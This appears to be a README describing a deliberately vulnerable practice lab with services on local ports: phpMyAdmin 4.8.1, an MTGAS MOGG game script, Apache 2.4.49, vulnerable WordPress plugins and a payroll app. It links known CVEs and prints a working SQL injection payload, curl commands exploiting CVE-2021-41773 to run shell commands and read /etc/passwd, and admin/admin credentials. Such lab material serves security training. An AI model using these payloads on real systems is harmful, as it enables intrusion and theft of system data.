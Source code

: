 # phpmyadmin 4.8.1 & MTGASS MOGG Web Simulator

1. **tcp 8511**
2. Hidden dir (MTGASS MOGG in dir **events/**)
3. password attack (phpmyadmin): [cve-2018-12613 authenticated RCE in phpmyadmin 4.8.1](https://github.com/vulhub/vulhub/tree/master/phpmyadmin/CVE-2018-12613) - [EDB-ID 45020](https://www.exploit-db.com/exploits/45020)
4. SQLi (MTGAS MOGG): [EDB-ID 45717 MTGAS MOGG Web Simulator Script - SQL Injection](https://www.exploit-db.com/exploits/45717)

```
Check the config file. See error below:

Failed to read configuration file!

This usually means there is a syntax error in it, please check any errors shown below.
```
```
MTGAS MOGG Web Simulator Script - SQL Injection

# Exploit Title: MOGG web simulator Script - SQL Injection
# Date: 2018-10-29
# Exploit Author: Meisam Monsef - meisamrce@gmail.com - @meisamrce -
@dorsateam
# Vendor Homepage: https://github.com/spider312/mtgas
# Version: All Version


Exploit :
http://server/play.php?id=99999'+[SQL Command]+#
http://server/play.php?id=99999%27+and+extractvalue(1,concat(0x3a,user(),0x3a))%23
```

# Apache 2.4.49

1. **tcp 8512**
2. Hidden dir, Apache 2.4.49 vuln: [CVE-2021-41773 path traversal and RCE in Apache 2.4.49](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773) - [EDB-ID 50383](https://www.exploit-db.com/exploits/50383)
3. Provide hint about exploits in hidden dir

```
Exploits:
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```
# Wordpress w/vulnerable plugins

1. **tcp 8514**
2. WP latest: [Damn Vulnerable WordPress](https://github.com/vavkamil/dvwp). **Multiple CVEs in plugins**.
3. Weak admin password 
```
Need to add database "wordpress" to wordpress_mysql
Need to update db host from "mysql" to "wordpress_mysql" in wp-config.php
Manually activate plugins after finishing installation
```
- Weak password (admin/admin)
- [Plugin InfiniteWP Client < 1.9.4.5 Auth Bypass](https://wpscan.com/vulnerability/10011). [EDB-ID 47939](https://www.exploit-db.com/exploits/47939)
- [WordPress File Upload < 4.13.0 - Directory Traversal to RCE](https://wpvulndb.com/vulnerabilities/10132).
- [WP Advanced Search < 3.3.4 - Unauthenticated Database Access and Remote Code Execution (RCE)](https://wpvulndb.com/vulnerabilities/10115)
- [Social Warfare <= 3.5.2 - Unauthenticated Arbitrary Settings Update](https://wpvulndb.com/vulnerabilities/9238). [EDB-ID 46794](https://www.exploit-db.com/exploits/46794)

# startrek payroll
1. **tcp 8515** 
2. SQLi [thomaslaurenson/startrek_payroll](https://github.com/thomaslaurenson/startrek_payroll)
3. Credentials for **authenticated RCE in phpmyadmin 4.8.1** stored in adjacent database.
